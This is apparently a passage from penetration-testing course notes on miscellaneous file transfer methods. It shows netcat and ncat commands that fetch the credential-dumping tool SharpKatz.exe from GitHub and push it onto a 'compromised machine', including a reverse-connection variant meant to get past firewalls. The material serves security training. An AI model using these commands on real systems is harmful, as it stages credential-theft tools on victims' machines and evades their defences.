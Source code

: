 Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
shakir0x00@htb[/htb]$ # Example using Original Netcat
shakir0x00@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
shakir0x00@htb[/htb]$ # Example using Ncat
shakir0x00@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

#### Attack Host - Sending File as Input to Netcat

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ # Example using Original Netcat
shakir0x00@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File
